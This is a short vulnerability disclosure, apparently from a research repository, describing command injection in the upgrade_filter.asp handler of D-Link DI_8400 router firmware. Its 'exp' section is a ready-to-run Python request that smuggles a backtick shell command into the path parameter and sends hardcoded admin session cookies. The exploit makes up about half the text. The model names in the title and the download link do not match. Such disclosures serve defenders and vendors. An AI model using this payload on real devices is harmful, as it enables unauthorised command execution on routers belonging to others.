

# D-link:DI_8400-16.07.26A1 Command Injection

# Firmware information
Firmware download address:[ProductInfo.aspx?m=DI-8300](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8100)

# Description:
A vulnerability was discovered in DI_8400-16.07.26A1, which has been classified as critical. This issue affects the upgrade_filter_asp function in the upgrade_filter.asp file. Manipulation of the path parameter can lead to command injection.

# Analyse:



The upgrade_filter_asp function has a system command execution vulnerability. When concatenating the command, it does not perform adequate filtering; it only checks for the presence of the path parameter and that the first seven characters of the path value are "http://".


# exp

```
import requests

burp0_url = "http://192.168.0.1:80/upgrade_filter.asp?path=http://`ps%20%3E%20/003.txt`"
burp0_cookies = {"wys_userid": "admin,wys_passwd=8A754169257736FE61876D5E681CF5D5"}
burp0_headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "ext/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```


